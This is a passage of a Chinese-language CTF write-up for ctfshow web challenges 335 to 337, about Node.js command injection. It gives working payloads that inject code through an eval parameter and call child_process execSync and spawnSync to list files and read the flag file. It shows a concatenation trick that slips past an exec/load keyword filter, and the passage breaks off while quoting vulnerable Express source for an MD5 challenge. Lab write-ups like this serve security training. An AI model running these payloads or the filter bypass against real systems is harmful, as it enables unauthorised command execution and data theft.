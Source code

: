 payload

```
ctfshow
123456
登录就行
```

### web335

查看源码

![image-20240322122922266](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240322122922266.png)

发现有个eval参数，eval函数可以执行命令，那这一题就是要命令注入了

payload

```js
require('child_process').execSync('ls')
require('child_process').execSync('cat fl00g.txt')
require('child_process').execSync('cat fl*').toString()
```

```js
require('child_process').spawnSync('ls').stdout.toString()
require('child_process').spawnSync('ls',['.']).stdout.toString()
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString() //不能用通配符
```

### web336

`过滤了/exec|load/i`

payload

```js
require("child_process")['exe'%2B'cSync']('ls')  //拼接绕过
require('child_process').spawnSync('ls').stdout.toString()
require('child_process').spawnSync('ls',['.']).stdout.toString()
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString() //不能用通配符
```

### web337

给了源码

```js
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
```